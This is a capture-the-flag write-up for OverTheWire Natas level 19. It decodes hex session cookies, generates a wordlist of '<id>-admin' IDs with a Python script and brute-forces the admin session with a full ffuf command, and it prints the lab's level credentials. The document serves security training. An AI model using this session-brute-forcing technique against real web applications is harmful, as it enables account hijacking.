 # Level 18 - Level 19

```
Username: natas19
Password: 8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s
URL:      http://natas19.natas.labs.overthewire.org
```

## Overview

This time we got the same login page that we got in the last level and its clearly mentioned that the source code is almost same, but the session id's will be random.

<figure><img src="../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

Let's first get the session id by trying to login with some random credentials.

<figure><img src="../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

***

## Decoding the Cookie

The session id we got was some random encoded string. I tried to decode the session id's by some basic encoding schemes in cyber chef and was able to decode the string using `From Hex` scheme.

<figure><img src="../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

The string that we got after decoding is `<id>-admin`.&#x20;

***

## Brute-forcing Session ID

Since we know all the possible id's, we can generate a word list of all possible `<id>-admin` sessions ids with Hex encoding. The wordlist can be generated using the following python script.

```python
#! /usr/bin/python

wordlist = open("hex_640.txt", "w")

cookies = [f"{i}-admin".encode("utf-8").hex() + "\n" for i in range(0, 641)]

wordlist.writelines(cookies)

wordlist.close()
```

Now we have successfully generated the word list by executing the above python script.

<figure><img src="../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

Now its time to use ffuf to brute-force the session id's.

{% code lineNumbers="true" %}
```python
ffuf -w hex_640.txt:FUZZ \
    -u $'http://natas19.natas.labs.overthewire.org/index.php' \
    -X $'POST' \
    -H $'Host: natas19.natas.labs.overthewire.org' \
    -H $'Content-Length: 31' -H $'Cache-Control: max-age=0' \
    -H $'Authorization: Basic bmF0YXMxOTo4TE1KRWhLRmJNS0lMMm14UUtqdjBhRURkazd6cFQwcw==' \
    -H $'Upgrade-Insecure-Requests: 1' \
    -H $'Origin: http://natas19.natas.labs.overthewire.org' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' \
    -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
    -H $'Referer: http://natas19.natas.labs.overthewire.org/' \
    -H $'Accept-Encoding: gzip, deflate, br' \
    -H $'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
    -H $'Connection: close' \
    -b $'PHPSESSID=FUZZ' \
    -d $'username=admin&password=somoene' \
    -fr "You are logged in as a regular user."
```
{% endcode %}

From the results of `ffuf`, we can get the valid admin cookie.

<figure><img src="../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

***

## Getting the Password

Now let's replace the session id with the id we found using ffuf and refresh the page to get the credentials for next level.

<figure><img src="../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>
